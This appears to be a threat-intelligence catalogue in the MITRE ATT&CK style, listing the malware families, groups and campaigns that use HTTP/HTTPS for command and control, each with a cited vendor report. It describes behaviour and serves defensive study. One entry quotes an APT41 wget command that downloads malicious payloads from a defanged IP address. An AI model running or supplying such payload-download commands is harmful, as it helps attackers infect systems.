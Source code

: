 - [C0001] Frankenstein: During [Frankenstein](https://attack.mitre.org/campaigns/C0001), the threat actors used HTTP GET requests for C2.(Citation: Talos Frankenstein June 2019)
- [G0032] Lazarus Group: [Lazarus Group](https://attack.mitre.org/groups/G0032) has conducted C2 over HTTP and HTTPS.(Citation: McAfee Lazarus Resurfaces Feb 2018)(Citation: SentinelOne Lazarus macOS July 2020)(Citation: TrendMicro macOS Dacls May 2020)(Citation: Lazarus APT January 2022)(Citation: Qualys LolZarus)(Citation: ESET Twitter Ida Pro Nov 2021)
- [S1130] Raspberry Robin: [Raspberry Robin](https://attack.mitre.org/software/S1130) uses outbound HTTP requests containing victim information for retrieving second stage payloads.(Citation: RedCanary RaspberryRobin 2022) Variants of [Raspberry Robin](https://attack.mitre.org/software/S1130) can download archive files (such as 7-Zip files) via the victim web browser for second stage execution.(Citation: HP RaspberryRobin 2024)
- [S0473] Avenger: [Avenger](https://attack.mitre.org/software/S0473) has the ability to use HTTP in communication with C2.(Citation: Trend Micro Tick November 2019)
- [S1029] AuTo Stealer: [AuTo Stealer](https://attack.mitre.org/software/S1029) can use HTTP to communicate with its C2 servers.(Citation: MalwareBytes SideCopy Dec 2021)
- [S0375] Remexi: [Remexi](https://attack.mitre.org/software/S0375) uses [BITSAdmin](https://attack.mitre.org/software/S0190) to communicate with the C2 server over HTTP.(Citation: Securelist Remexi Jan 2019)
- [S0013] PlugX: [PlugX](https://attack.mitre.org/software/S0013) can be configured to use HTTP for command and control.(Citation: Dell TG-3390)(Citation: Proofpoint TA416 Europe March 2022)
- [S0352] OSX_OCEANLOTUS.D: [OSX_OCEANLOTUS.D](https://attack.mitre.org/software/S0352) can also use use HTTP POST and GET requests to send and receive C2 information.(Citation: Trend Micro MacOS Backdoor November 2020)
- [S0264] OopsIE: [OopsIE](https://attack.mitre.org/software/S0264) uses HTTP for C2 communications.(Citation: Unit 42 OopsIE! Feb 2018)(Citation: Unit 42 OilRig Sept 2018)
- [G1043] BlackByte: [BlackByte](https://attack.mitre.org/groups/G1043) collected victim device information then transmitted this via HTTP POST to command and control infrastructure.(Citation: Microsoft BlackByte 2023)
- [S0251] Zebrocy: [Zebrocy](https://attack.mitre.org/software/S0251) uses HTTP for C2.(Citation: Palo Alto Sofacy 06-2018)(Citation: Unit42 Cannon Nov 2018)(Citation: ESET Zebrocy Nov 2018)(Citation: Unit42 Sofacy Dec 2018)(Citation: ESET Zebrocy May 2019)(Citation: Accenture SNAKEMACKEREL Nov 2018)
- [S0428] PoetRAT: [PoetRAT](https://attack.mitre.org/software/S0428) has used HTTP and HTTPs for C2 communications.(Citation: Talos PoetRAT October 2020)
- [S0649] SMOKEDHAM: [SMOKEDHAM](https://attack.mitre.org/software/S0649) has communicated with its C2 servers via HTTPS and HTTP POST requests.(Citation: FireEye SMOKEDHAM June 2021)
- [S0491] StrongPity: [StrongPity](https://attack.mitre.org/software/S0491) can use HTTP and HTTPS in C2 communications.(Citation: Talos Promethium June 2020)(Citation: Bitdefender StrongPity June 2020)
- [S0664] Pandora: [Pandora](https://attack.mitre.org/software/S0664) can communicate over HTTP.(Citation: Trend Micro Iron Tiger April 2021)
- [S0695] Donut: [Donut](https://attack.mitre.org/software/S0695) can use HTTP to download previously staged shellcode payloads.(Citation: Donut Github)
- [S1190] Kapeka: [Kapeka](https://attack.mitre.org/software/S1190) utilizes HTTP for command and control.(Citation: WithSecure Kapeka 2024)
- [S0374] SpeakUp: [SpeakUp](https://attack.mitre.org/software/S0374) uses POST and GET requests over HTTP to communicate with its main C&C server. (Citation: CheckPoint SpeakUp Feb 2019)
- [G0126] Higaisa: [Higaisa](https://attack.mitre.org/groups/G0126) used HTTP and HTTPS to send data back to its C2 server.(Citation: Malwarebytes Higaisa 2020)(Citation: Zscaler Higaisa 2020)
- [S1163] SnappyTCP: [SnappyTCP](https://attack.mitre.org/software/S1163) connects to the command and control server via a TCP socket using HTTP.(Citation: PWC Sea Turtle 2023)
- [S1015] Milan: [Milan](https://attack.mitre.org/software/S1015) can use HTTPS for communication with C2.(Citation: ClearSky Siamesekitten August 2021)(Citation: Kaspersky Lyceum October 2021)(Citation: Accenture Lyceum Targets November 2021)
- [S0082] Emissary: [Emissary](https://attack.mitre.org/software/S0082) uses HTTP or HTTPS for C2.(Citation: Lotus Blossom Dec 2015)
- [S0504] Anchor: [Anchor](https://attack.mitre.org/software/S0504) has used HTTP and HTTPS in C2 communications.(Citation: Cyberreason Anchor December 2019)
- [G1039] RedCurl: [RedCurl](https://attack.mitre.org/groups/G1039) has used HTTP, HTTPS and Webdav protocls for C2 communications.(Citation: group-ib_redcurl1)(Citation: group-ib_redcurl2)
- [C0017] C0017: During [C0017](https://attack.mitre.org/campaigns/C0017), [APT41](https://attack.mitre.org/groups/G0096) ran `wget http://103.224.80[.]44:8080/kernel` to download malicious payloads.(Citation: Mandiant APT41)